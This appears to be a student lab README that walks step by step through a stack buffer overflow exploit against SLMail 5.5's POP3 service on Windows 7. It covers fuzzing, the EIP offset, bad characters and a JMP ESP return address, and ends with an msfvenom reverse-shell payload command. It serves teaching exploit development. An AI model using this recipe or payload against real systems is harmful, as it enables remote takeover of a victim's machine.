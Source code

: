 # zeit8042 - Shellcode Design to Buffer Overflow on Windows 7 Machine using vulnerable application as SLMail. 
What we try to achieve?
•	Get the control of EIP register.
•	Tell instruction register to execute our preferred program like /bin/sh, reverse shell, shellcode execution.
•	Or point to the exact memory location where it can execute code or program.
How we do it?
1.	Spiking: Find a vulnerable program or code or application which can use to start exploiting the system and get help of the resources. In our case it is SLmail 5.5: POP3 which is unauthenticated buffer overflow vulnerability exist according to exploit database CVE 2003-0264.
2.	Fuzzing: Try to find out whether the application could be exploited or not? In our case we send a bunch of ‘A’ characters to the application to see (using Immunity Debugger) if we can overrun the ESP | EBP | EIP registers.
3.	Determine the offset of the register: Try to find out the exact position EIP register: means find out the exact memory address of EIP, that can make demarcation point between buffer and EIP | EBP | ESP register. In our case, we use Metasploit-framework (pattern_create.rb | pattern_offset.rb) tools.
4.	Take control of the EIP register: Overwriting the EIP register with the address of the exploitable application or shellcode.
5.	Finding the Bad Characters: List of unwanted characters that can break the shellcode. In SLmail application we found \x00, \x0A, \x0D bad characters.
6.	Finding the right module: Try to find out .DLL or something similar that has no memory protection or could be exploitable. In our case we found SKmail.dll and we try to find an address of an instruction like JMP ESP. Later, stack pointer points to shellcode or other application like /bin/sh or get the reuse shell of the attacked system.
7.	Generate the shellcode (when DEP is disabled): Execute the code to get reverse shell of the attacked system. In our case we use msfvenom tools to generate shellcode.
8.	Generate the ROP Chains (when DEP enabled): 


################################################

Step-By-Step Procedure for developing the Shellcode:

###############################################



(1)	./buffer – fuzz.py -> executed (check if EIP could be buffer-overflow or not!)
ESP = 023FA128 … (AAA ….) only ‘A’ send out
EIP = 41414141 (Achieved)

(2)	./buffer – fuzz – pattern.py
ESP = 022EA128 (Dj0Dj1Dj...)

In ID (Immunity Debugger): after attaching the SLMail application.
Kali Linux MC: find pattern_create
	Locate pattern_create
O/P: /user/bin/msf-pattern_create
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb
Now execute this:
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb  - l 2700
O/P: Aa0Aa1…
-> Copy this: “(string as buffer…)” and put it in our buffer-fuzz-pattern.py file.
	Run our buffer-fuzz-pattern.py file from Kali M/C when ID is running at Win7 M/C with SLMail application attached. 
	ID “access violation…. [39694438]… found”
	Go back to Kali and find out pattern_offset
Kali: locate pattern_offset
	O/P: /user/bin/msf-pattern_offset
		/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb
	Now run in Kali M/C.
Kali M/C:
/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb – q 39694438
O/P: [*] Exact match at offset 2606

(3)	./buffer-fuzz-offset.py

Buffer = “A” * 2606 + “B” * 4 + “C” * 290  create a 2900 bytes
and check the EIP resistor if it is ‘BBBB’ or ‘42424242’ means our offset is correct.

	Run the program from Kali (./buffer-fuzz-offset.py)
	Run ID in Win7 machine where SLMail is attached with it.
O/P at ID is:
	ESP: full of ‘CCCCCC….’
	EIP: 42424242
	Means OFFSET ‘2606’ is correct to reach EIP resistor.
Now, increase our buffer size to 3500 bytes using more ‘C’  ./buffer-fuzz-C.py

(4)	./buffer-fuzz-badchars.py

We need to find bad characters from the file as it will make the output out of order. For this reason, construct a bad char byte array. It is done from ID in win Win7 M/C
	!mona bytearray 
O/P is bytearray.txt in the ID folder. 
	Copy the byte contexts from bytearray.txt file and create a .py file as buffer-fuzz-badchars.py
	In this file, include the bytearray as variable badchars = …… and ‘buffer’ variable looks like in the following:
Buffer = “A” * 2606 + “B” * 4 + badchars
	Now run this .py from Kali Linux M/C and check this in ID on Win7 M/C after attaching the SLMail application. 
	Now ECX resistor show  illegal command…. AAA… click it and follow in dump. 
O/P: (ECX 025A9ECA ASCII “………. AAAA……”)
	In the DUMP window O/P check the contents after
42 42 42 42 01 02 03 04 05 06 07 08 09 29 20

After 09, it should be 0a 0b… rather 29 20 
So I/P character and O/P character have discrepancies. 
It means OA is bad character.
So remove this from I/P file  means buffer-fuzz-badchar.py file delete the ‘OA’ file from the badchar variable and save it. 
	Do the previous process again and run it.
	And find out ‘\X0D’ has another bad character.
	‘\X00’ also a bad character.
	So from onwards, we have to remember to exclude ‘\X00’, ‘\X0A’ and ‘\X0D’ characters. 

(5)	./buffer-fuzz-C.py (check if EIP’s particular position could be determined)
ESP = 0226A128 (CCCC….)
EIP: 42424242 (Achieved)
(6)	Find the memory address of JMP ESP.
	In the ID: search for >command>JMP ESP (Find Command Windows)
	The OP code for JMP ESP is ‘FFE4’ means “\XFF\XE4”
	Run 
!mona find -s “\XFF\XE4” – m slmfc.dll
	Why is slmfc.dll, why not ntdll.dll?
-	Because .dll module should be ASLR and REBASE false. In case of ntdlll.dlll  both are true.
-	In shellcode execution we need fixed memory address which will not change at this. This is vital for our shellcode executed process.
O/P: 0X5F4A358F
	0X5F4B11E3
…
19 points found.

I choose OX5F4A358F as it has no bad characters and ASLR & REBASE are false. 
	SLMFC.DLL modules.

	Now reconstruct or update our buffer code.
o	In buffer-fuzz-jmp-esp.py file.
Buffer = “A”*2606+”\X8F\X35\X4A\X5F”+”C”*(3500-2606-4)

As we are using Intel machine and it is little endian, addresses are in reverse order. 
	Now run the program ./buffer-fuzz-jmp-esp.py 
Against ID(Win 7 M/C) > SLMail application attached to it.

ESP = 019CA128    ASCII “CCCCC….”
EBP = 41414141
EIP = 019CA2D6

On the stack dump: O/P is 
019CA11C	41414141	AAAA
019CA120	41414141	AAAA
019CA124	5F4A358F	SLMFC.5F4A3585	 A
019CA128	43434343			 B	
019CA12C	43434343

(A)	It is important (0X019CA124) memory location contain string (5F4A358F), which in actually a memory address that stack do not consider. It’s job in when EIP resistor have this input it see whether it is a legitimate address or not? If not ‘access violation’ or jump to that location. When it jump to that location, it found ‘JMP ESP’ instruction or op code of “\XFF\XEA”. 
(B)	To execute the instruction it go to the stack pointer at (0X19CA128) memory location and fetch the contents. If we put our exploit here then it will execute. In many case, “\X90”: NOP (no operation) op code use to direct the shellcode execution location. 
Next the shellcode execution.

(7)	Shellcode execution.

On the Kali Linux M/C execute following command to get the reverse shell of Windows 7 M/C:

	msfvenom -p windows/shell_reverse_tcp LHOST=<attack m/c IP> LPORT=<port#> -f c -a x86 –platform windows -b “\X00\X0A\X0D” -e X86/shikata_ga_nai
	Copy the O/P of this command and put it in the clipboard.













Youtube Link: https://www.youtube.com/watch?v=j-K0jX0vgkI&ab_channel=AhasanAnowar

